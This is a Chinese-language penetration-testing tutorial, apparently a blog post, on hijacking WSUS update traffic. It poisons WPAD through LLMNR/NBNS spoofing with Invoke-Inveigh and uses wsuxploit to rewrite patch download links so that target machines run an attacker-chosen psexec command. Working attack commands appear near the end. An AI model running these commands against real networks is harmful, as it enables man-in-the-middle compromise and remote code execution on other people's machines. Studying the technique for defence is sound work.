









#### 0x01前置

拥有WSUS服务器权限，我们可以以补丁的形式给内网的机器下发psexec.exe并执行命令，参考http://greatagain.dbappsecurity.com.cn/#/book?id=1730&type_id=1。在没有权限的情况下，可以通过中间人攻击劫持目标机器和WSUS的通信，更改WSUS返回给目标机器的返回包中的补丁下载链接，使目标机器下载我们的可执行文件安装执行。

#### 0x02 知识补充

##### WAPD

网络代理自动发现协议（Web Proxy Autodiscovery Protocol）,通过让浏览器自动发现代理服务器，定位代理配置文件wpad.dat，下载编译并运行，最终自动使用代理访问网络。wpad.dat文件示例

```javascript
//
function FindProxyForURL(url, host) {
      if (shExpMatch(host, "*.google.com")||shExpMatch(host, "google.com")) 	{return "PROXY 192.168.50.5:8118; DIRECT";}
      return "DIRECT";
   }
```

如图



用户PC在设置了自动发现代理服务器时，在访问网络之前，首先会向DNS/DHCP服务器请求WPAD主机的地址，再从WPAD主机80端口下载wpad.dat文件编译运行，之后使用wpad.dat设置的代理服务器和代理规则通过代理服务器链接网络。在DHCP和DNS不可用的情况下，则用户PC发起名称解析(域内：wpad.domain.com)。名称解析按以下步骤进行：

```
1.检查文件系统中的主机文件
    在其配置文件C\Windows\System32\drivers\etc中，查询要访问的系统信息，检查要访问的设备是否时本身。
2.检查本地DNS缓存
		检查缓存。如果高速缓存中存在要访问的设备的信息，则使用此信息。
3.发送查询到DNS
		如果计算机从配置文件中找不到与要访问的设备有关的任何信息，它将向本地网络上的DNS服务器发送查询。
4.发送LLMNR查询
		LLMNR是当DNS服务器名称解析失败时处理的协议。
5.发送NetBIOS-NS查询
		发送NetBIOS查询
```


#### 0x03 WSUS交互过程

在设置了WSUS服务器的内网，其他机器更新时会通过http协议和wsus服务进行交互，确定需要安装哪些补丁，以及补丁的下载地址。交互过程：

1.客户端发送本地已安装补丁ID



服务端返回可更新补丁，图示为补丁ID



2.客户端发送本机硬件ID列表



服务端返回是否有可用更新



3.请求可用更新地址及服务端返回



返回包里包含了可用更新补丁的hash、补丁安装类型、补丁下载地址。通过burp可以更为直观的看见返回包内容



安装类型CommandLineInstall可以为安装程序提供参数。

#### 0x04 劫持

综上，在配置了自动代理发现的网络环境中，可以通过劫持wpad,使得目标使用我们的代理服务器进行系统更新。在请求更新返回包中，修改补丁下载地址，使目标机器下载我们的可执行文件(微软签名，如：psexec)执行。

相关工具[Invoke-Inveigh](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1)、[wsuxploit](https://github.com/pimps/wsuxploit)(需要安装twisted18.9.0，这个模块是个天坑)、

在攻击机(192.168.0.202)上执行

`python wsuxploit.py psexec` //默认监听8080端口，可更改payload.ini自定义payload

`Invoke-Inveigh -IP 192.168.0.202 -NBNS Y -LLMNR Y -SMB N -StatusOutput Y -HTTP Y SpooferHostsReply-Default All -WPADAuth Anonymous -WPADIP 192.168.0.202 -WPADPort 8080 -Tool 2`

其中SpooferHostsReply-Default可指定为目标IP，`-WPADIP 192.168.0.202 -WPADPort 8080`指定wsuxploit的IP和端口。当目标机器(192.168.0.232)更新时，就能修改交互






(192.168.0.101为WSUS服务器)

在客户端win7、WSUS服务端为2008r2上测试成功。

